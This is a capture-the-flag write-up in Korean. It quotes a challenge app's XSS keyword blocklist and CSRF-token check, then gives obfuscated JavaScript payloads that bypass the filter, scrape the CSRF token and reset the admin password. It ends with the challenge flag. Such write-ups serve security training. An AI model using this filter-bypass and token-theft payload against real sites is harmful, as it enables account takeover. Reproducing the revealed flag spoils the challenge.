


## CSRF-2

```python
def content_filter(c):
    c = c.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "base", "\\u", "embed", "&#",
             "alert", "fetch", "xmlhttprequest", "eval", "constructor"] + list("'\"")
    return any(v in c for v in vulns)

def changepw():
        if "userid" not in request.args or "userpw" not in request.args:
            session["csrf_token"] = binascii.hexlify(os.urandom(16)).decode()
            return ('<form id="form1" method="GET" action="/changepw">'
                    '<input name="userid"><input name="userpw">'
                    '<input type="hidden" name="csrf_token" value="%s"></form>') % session["csrf_token"]
        if "csrf_token" not in request.args:
            return "please input csrf token"
        if request.args["csrf_token"] != session.get("csrf_token"):
            return "csrf token not match!"
        userid = request.args["userid"]; userpw = request.args["userpw"]
```

csrf 토큰 인증 기능이 추가 되었고 XSS 필터링이 되고 있다는 사실을 알 수 있다.

먼저 XSS 가 정상적으로 작동하는지 확인하였다.

```python
<script>
Set[`co`+`nstructor`]`\x61lert\x281\x29```
</script>
```



정상적으로 작동함을 파악하였다.

python 코드를 보게 되면 return 부분에 name=" 으로 token 값을 받고 있음을 알 수 있으므로 아래와 같은 페이로를 구성해 토큰 인증을 하고 admin의 비밀번호를 수정할 수 있다.

```jsx
<script>
Set[`co`+`nst`+`ructor`]`f\x65tch(\x27/changepw\x27).then(e=>e.text()).then(e=>{a=e.indexOf(\x27value=\x22\x27)+7;csrf_token=e.slice(a,a+32);f\x65tch(\x27/changepw?userid=admin&userpw=matherfather&csrf_token=\x27+csrf_token)})```
</script>
```

페이로드를 실행하고 나면 id:admin,pw:matherfather로 admin 계정에 로그인이 가능하다 로그인 후 flag 페이지를 열어보면 flag를 획득할 수 있다



flag{cb3ba4a90250765ff635}
